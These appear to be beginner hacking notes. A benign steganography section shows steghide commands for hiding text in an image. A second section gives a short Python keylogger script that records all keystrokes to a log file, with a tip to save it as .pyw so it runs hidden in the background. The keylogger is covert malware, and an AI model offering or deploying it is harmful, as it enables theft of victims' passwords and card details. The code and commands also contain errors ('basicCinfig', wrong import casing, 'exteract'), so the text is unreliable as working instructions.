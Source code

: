 ## Steganography

Steganography is **the practice of hiding a secret message inside of (or even on top of) something that is not secret**.
- These days, many examples of steganography involve embedding a secret piece of text inside of a picture.
- But also we can hide inside audio files and etc
- There are many **tools** for this.
	- The famous on is “**steghide**”
```
>	sudo apt install steghide
>	steghide embed -ef secret.txt -cf img.jpeg     #Hide text in image
>	steghide exteract -sf img.jpeg                # You will get the secret text file
>	cat secret.txt     # you can get the text file now
```
1. Download it 
2. To hide text to image 
3. To extract

## Caution

When you share these staged files, it doesn’t have to be compressed Or use USB,CD
- EG. If you want to share it in telegram, use the file format of image.

## Keylogging

Keyloggers are **activity-monitoring software programs or hardware device that give hackers access to your personal data**.
- The passwords and credit card numbers you type, the web pages you visit – all by logging your keyboard strokes.
- The software is installed on your computer, and records everything you type.

## Python Keylogger

```c
from pynput.keyboard import key,listener
import logging

log_dir=""

logging.basicCinfig(filename=(log_dir + 'key_log.txt'),level=logging.DEBUG, format='%(asctime)s: %(message)s:')

def on_press(key):
	logging.info(str(key))

with listener(on_press=on_press) as listener:
	listener.join()

```
The file will be saved as .**pyw** this will make the file to now show any pop up but still it runs on background.
- You can see that in task manager
- When you run this , it will create a log file.


### PRACTICE PRACTICE PRACTICE!!

